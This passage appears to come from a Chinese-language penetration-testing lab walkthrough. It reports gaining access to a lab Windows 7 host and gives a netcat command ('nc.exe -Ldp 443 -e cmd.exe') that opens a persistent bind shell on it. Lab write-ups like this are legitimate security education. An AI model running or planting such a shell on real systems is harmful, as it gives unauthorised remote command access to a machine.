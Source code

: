 

成功获得Win7-3：192.168.77.129权限

![image-20211015143850933](assets/image-20211015143850933.png)





也可以用nc测试目标Win7-3:192.168.77.129：

在Win7-3:192.168.77.129开启监听端口,kali中的nc位置:/usr/share/windows-binaries/nc.exe

```
nc.exe -Ldp 443 -e cmd.exe
```

![image-20211015145444620](assets/image-20211015145444620.png)
